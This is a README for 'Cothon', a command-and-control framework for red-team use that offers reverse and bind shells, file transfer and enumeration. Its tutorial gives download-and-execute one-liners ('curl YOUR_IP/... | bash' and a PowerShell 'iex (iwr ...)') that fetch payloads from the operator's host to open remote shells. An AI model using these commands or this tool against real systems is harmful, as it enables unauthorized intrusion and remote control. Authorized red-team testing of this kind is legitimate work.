 <p align="left">
  <img src="https://img.shields.io/badge/Cothon%20Framework-FF69B4?style=for-the-badge&logo=appveyor" alt="Cothon Framework">
</p>



![image](https://github.com/user-attachments/assets/f0bff41e-d932-49ba-b49c-214c5edbcdc6)

 
 <i>Cothon is a stealthy C2 framework built for ethical hacking and red team operations.</i>

## Features

    - Windows & Linux reverse/bind shells

    - Real-time process monitoring, privilege detection, background/foreground control

    - File transfers, SSL/TLS support, rate-limited HTTP(S) payload server

    - User enumeration, service vulnerability detection, file system exploration

    - Dead shell cleanup, encrypted logs, secured shell

## Tutorial

1. Fire it up
``` bash
python cothon.py --lhost YOUR_IP --ssl
```
2. Get shells<br>

Linux
``` bash
curl YOUR_IP/linux/1337 | bash
```
  Windows
``` bash
iex (iwr YOUR_IP/windows/1337)
```

  ## Screenshots

  ![image](https://github.com/user-attachments/assets/91a53d6e-6f81-4428-8226-9844ec1ca325)
<b>Main Interface<b> <br>
![image](https://github.com/user-attachments/assets/3cf04309-a627-4851-8451-db808cfb97e8)
<br><b> Shells List<b>
![image](https://github.com/user-attachments/assets/9217d5e3-8794-48ab-b1cd-4e221b77d8f0)
<br><b> Shell Menu<b>
![image](https://github.com/user-attachments/assets/bc395999-ccab-4421-a14a-123072d38853)


## Disclaimer <br>
 <b>Warning</b>: Use only for authorized testing. Never deploy without permission. Developers assume no liability for misuse.
